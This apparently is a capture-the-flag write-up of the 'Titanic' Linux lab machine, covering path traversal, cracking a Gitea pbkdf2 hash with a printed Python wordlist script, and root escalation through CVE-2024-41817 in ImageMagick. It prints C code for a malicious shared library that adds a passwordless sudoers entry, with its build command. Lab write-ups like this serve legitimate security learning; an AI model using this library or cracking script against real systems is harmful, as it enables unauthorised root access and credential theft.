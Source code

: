 ```yaml
---
layout: post
title: "Titanic-Linux-Easy"
date:   2025-07-17 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/eb5942ec56dd9b6feb06dcf8af8aefc6.webp
---
```


# Titanic

# 1. Enumeration

Start enumerating ports

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image.png' | relative_url }})

A web application running on port 80, it is possible to book a trip

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_1.png' | relative_url }})

Then we can download the resume of the booking

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_2.png' | relative_url }})

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_3.png' | relative_url }})

# 2. User flag

There is no input sanitization at all, we can access another files performing path traversal attack

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_4.png' | relative_url }})

Easy to enumerate users, with a shell available

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_5.png' | relative_url }})

A really easy way to access the user flag using this information

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_6.png' | relative_url }})

This seems to be a unintended, anyways we need to do more steps further to gain a shell as this user, enumerate subdomains using FFUF

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_7.png' | relative_url }})

A version controlling is present in this subdomain

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_8.png' | relative_url }})

Check the compose file to find worthy paths

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_9.png' | relative_url }})

This is just a clue, the root gitea directory is disclosed, now we need to find a config file or a database, those are possible paths

```python
/var/lib/gitea/data/gitea.db
/data/gitea/conf/app.ini
~/.gitea/custom/conf/app.ini
```

finally it is on `/home/developer/gitea/data/gitea/gitea.db`

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_10.png' | relative_url }})

There is a hash with this password hash algorithm (pbkdf2)

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_11.png' | relative_url }})

Search a little bit to be able to crack it using hashcat

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_12.png' | relative_url }})

Follow the previous instructions but don’t forget it is in hexadecimal format, we need to pass it from hex to its original bytes format, then we can encode it to base64

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_13.png' | relative_url }})

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_14.png' | relative_url }})

Another way is using a python script, automating this process and avoiding using hashcat

```python
import hashlib
import binascii

def create_pbkdf2hash(password, salt, iterations, dklen):
	hash_gen = hashlib.pbkdf2_hmac('sha256',password.encode('utf-8'), salt, iterations, dklen)
	return hash_gen

def crack_hash(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
	with open(dictionary_file, 'r', encoding='utf-8') as f:
		count = 0;
		for line in f:
			password = line.strip()
			hash_value = create_pbkdf2hash(password, salt, iterations, dklen)
			count += 1
			if hash_value == target_hash:
				print(f'password found: {line}, count {count}')
		print('Password not found')
		

salt = binascii.unhexlify('salt')
target_hash = binascii.unhexlify('hash')
dictionary_file = '/usr/share/wordlist/rockyou.txt'
crack_hash(dictionary_file, target_hash, salt)
```

Then password is found and we can access as developer through ssh

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_15.png' | relative_url }})

# 3.Priv esc

In opt there are some automation scripts, this takes every .jpg in a directory and it is passed to `magick` tool to identify every image

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_16.png' | relative_url }})

Checking it version we can see it is vulnerable to CVE-2024-41817, basically it is compiled by gcc, imagemagick is leaving some environment variables (LD_LIBRARY_PATH, MAGICK_COINFIGURE_PAHT) with insecure paths, if those paths do not exist, the tool will fallback using shared libraries present in the current directory

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_17.png' | relative_url }})

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_18.png' | relative_url }})

We have control over the current directory where it is executing, use the POC to create a malicious shared library

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_19.png' | relative_url }})

Wait a little bit until it is compiled and get the root flag

![image.png]({{ '/assets/images/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9/79cfbba1-5d00-4be3-9024-410aeb127310-export-17230101-c486-4db1-a5be-7f8c4dbff5b9_image_20.png' | relative_url }})

Another way to do it, giving a root shell to developer user

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```

```bash
gcc -fPIC -shared -o ./libxcb.so.1 a.c -nostartfiles
```

Machine pwned!!!@
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
